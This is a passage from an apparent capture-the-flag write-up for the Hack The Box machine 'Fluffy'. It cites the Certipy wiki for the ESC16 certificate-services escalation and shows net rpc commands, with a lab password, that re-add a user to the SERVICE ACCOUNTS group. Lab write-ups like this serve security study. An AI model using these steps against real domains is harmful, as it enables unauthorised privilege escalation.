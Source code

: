 ### 🧪 Exploitation

The `certipy-ad` wiki shows the exact steps needed to perform the ESC16 vulnerability exploit.
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

I once again used `p.agila` to perform the ESC16 attack using `ca_svc` to escalate privileges.

![](images/Pasted%20image%2020250716073659.png)

An automated script on the server removed `p.agila` from the `SERVICE ACCOUNTS` group.  So, I re-added the user to the group and proceeded with the steps from the wiki.

```
fcoomans@kali:~/htb/fluffy$ net rpc group members "SERVICE ACCOUNTS" -U "FLUFFY/p.agila%prometheusx-303" -S "dc01.fluffy.htb"
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\winrm_svc

fcoomans@kali:~/htb/fluffy$ net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY/p.agila%prometheusx-303" -S "dc01.fluffy.htb"

fcoomans@kali:~/htb/fluffy$ net rpc group members "SERVICE ACCOUNTS" -U "FLUFFY/p.agila%prometheusx-303" -S "dc01.fluffy.htb"
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc
```
